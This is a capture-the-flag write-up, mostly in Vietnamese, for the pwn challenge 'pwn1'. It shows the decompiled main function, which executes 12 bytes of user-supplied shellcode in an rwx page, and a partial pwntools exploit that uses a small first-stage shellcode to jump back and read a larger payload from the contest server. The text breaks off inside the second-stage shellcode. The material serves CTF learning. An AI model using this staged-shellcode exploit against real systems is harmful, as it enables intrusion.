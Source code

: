 
## pwn/pwn1

{{< admonition note "Challenge Information" >}}
* 0 solve / 500 pts
* **Given files:** [pwn1](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EeNv7B6LlU1Cm8xv11c8j14B53DaHhiI_rNmTx9wNTGQrg?e=kV9ns4)
* **Description:** every things start with assembly\
`nc 103.162.14.116 20001`
{{< /admonition >}}

**Solution**

Sử dụng IDA64 decompile chương trình, ta thu được mã giả của hàm `main` như sau 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+0h] [rbp-10h]

  setup(argc, argv, envp);
  buf = mmap((void *)0x1337000, 0x1000uLL, 7, 33, -1, 0LL);
  puts("Let warm up a bit with shellcode , shall we?");
  read(0, buf, 0xCuLL);
  puts("OK let see how your shellcode work!!!!");
  ((void (*)(void))buf)();
  return 0;
}
```

Ta thấy, chương trình `mmap` 1000 byte, bắt đầu tại địa chỉ `0x1337000` với full quyền rwx và yêu cầu chúng ta viết shellcode. 

Vấn đề ở đây là chúng ta chỉ nhập được tối đa 12 byte. Vậy nên không thể viết trực tiếp shellcode lấy shell như thông thường được. Mình sẽ mở rộng kích thước số byte được nhập ra và gọi lại hàm `read`. 

```python
from pwn import *
import time 

exe = ELF("./pwn1") 
# libc = ELF("./libc.so.6")
# ld = ELF("./ld.so.6")

context.log_level = "debug"
context.arch = "amd64"
context.binary = exe 

# p = process(exe.path)
p = remote("103.162.14.116", 20001)

def sla(*args):
    return p.sendlineafter(args[0], args[1]) 

def sl(*args):
    return p.sendline(args[0]) 

shellcode1 = asm("""
    mov edx, 0xff
    add r13, 87 
    jmp r13
""")

p.sendafter("shall we?\n", shellcode1)

shellcode2 = asm("""
```